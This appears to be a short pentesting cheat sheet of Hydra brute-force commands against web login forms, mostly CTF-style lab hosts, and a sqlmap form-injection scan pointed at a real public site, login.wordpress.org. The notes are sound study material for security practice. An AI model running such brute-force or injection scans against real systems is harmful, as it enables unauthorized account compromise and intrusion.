 # Active-Sanning
This is a list of tools that will help with attack but may show alerts on IDS as you are sending many requests.

## Brute Force 
May result in IP ban if too many requests are made.
### Hydra
Used to brute force users on websites
```bash
hydra -l <username> -P <wordlist> 192.168.2.62 http-post-form <path>:<body>:<fail_message>
hydra -l Elliot -P /usr/share/wordlists/rockyou.txt 10.10.118.169 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Username or passwordis incorrect" -t 35
hydra -l users.txt -P /usr/share/wordlists/rockyou.txt api-prod.horizontall.htb http-post-form "/admin/auth/login:'{"identifier":'^USER^',"password":'^PASS^}:Identifier or password invalid." -t 35

```
## SQL
### SQLmap
```bash
	sqlmap -u https://login.wordpress.org --forms
```
